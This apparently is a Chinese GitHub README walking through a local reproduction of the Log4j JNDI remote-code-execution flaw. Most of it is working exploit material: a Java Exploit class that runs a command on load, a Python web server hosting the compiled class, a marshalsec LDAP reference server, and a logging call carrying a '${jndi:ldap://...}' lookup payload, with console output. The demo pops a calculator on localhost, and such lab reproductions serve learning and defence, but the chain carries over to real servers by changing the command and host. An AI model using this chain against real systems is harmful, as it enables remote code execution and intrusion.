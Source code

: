 需要的环境:

- java 1.8.0
- python3

# Log4J 漏洞复现+漏洞靶场

昨天晚上朋友圈算是过了年了，一个log4j大伙都忙了起来，看着朋友圈好久没这么热闹了。Apache 的这个log4j这个影响范围的确是大，包括我自己做开发的时候也会用到log4j，这就很尴尬了。

大家也不要在公网上疯狂测试了，我给大家带来了漏洞靶场，攻击视频在下文，一步一步教你。

漏洞原理我改天会详细的写一篇文章出来，今天就主要是复现一下漏洞。

昨晚爆出的log4j rce 是通过lookup触发的漏洞，但jdk1.8.191以上默认不支持ldap协议，对于高版本jdk,则需要一定的依赖。不过为了给大家最简单的说明，我这里还是用jdk1.8.144的版本来运行。

这个漏洞和fastjson的漏洞利用如出一辙，首先需要编写一个恶意类。

- 第一步：编写恶意代码

```java
public class Exploit {
    public Exploit(){
        try{
            // 要执行的命令
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}
```

这里是弹出计算器

- 第二步：编译成class


```bash
# 第二步：编译成class
javac Exploit.java
```

把这个类编译之后会得到一个Exploit.class，然后需要在当前目录下启动一个web服务，

- 第三步：启动本地服务

```
# 在./java-test/src/main/java 目录下运行
python3 -m http.server 8100

```

```bash

mrgaogang@mrgaogang-MB0 java % python3 -m http.server 8100
Serving HTTP on 0.0.0.0 port 8100 (http://0.0.0.0:8100/) ...

127.0.0.1 - - [28/Feb/2022 22:07:12] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [28/Feb/2022 22:07:15] "GET /Exploit.class HTTP/1.1" 200 -


```

- 第四步：启动ldap服务

然后用[marshalsec](https://github.com/mbechler/marshalsec) IDAP服务，项目地址：[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

```
# 在./java-test/src/main/java 目录下运行
java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"

```

```bash

Listening on 0.0.0.0:1389
Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for Exploit2 redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaa redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for  redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaaaaa redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaaaaa redirecting to http://127.0.0.1:8100/Exploit.class



```
漏洞类


- 第五步：编写漏洞类并启动


```java

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class LogTest {
    private static final Logger logger = LogManager.getLogger(LogTest.class);

    public static void main(String[] args) {
        logger.error(   "${jndi:ldap://127.0.0.1:1389/aaaaaaa}");
    }
}


```

最后运行LogTest下面的main